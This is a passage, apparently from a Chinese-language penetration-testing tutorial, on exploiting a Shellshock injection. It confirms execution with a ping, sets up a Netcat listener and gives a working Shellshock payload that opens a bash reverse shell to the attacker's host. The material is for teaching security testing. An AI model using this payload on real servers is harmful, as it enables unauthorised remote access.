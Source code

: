 经过一些尝试和错误，你找到了正确的命令。`ping -c 1 10.7.7.4` 命令将在服务器上执行，并且通过网络嗅探器（例如 Wireshark）在攻击者的机器上捕获到 ping：

![](img/00122.jpeg)

现在你已经找到了正确的注入命令，你可以尝试直接访问服务器的 shell。为此，首先使用 Netcat 设置监听器如下所示：

```

nc -lvp 12345

```

然后注入命令。这一次，你正在注入一个更高级的命令，如果成功，将产生一个完全交互式的 shell：

```

() { :;}; /bin/bash -c "ping -c 1 10.7.7.4; bash -i >& /dev/tcp/10.7.7.4/12345 0>&1"

```

![](img/00123.jpeg)
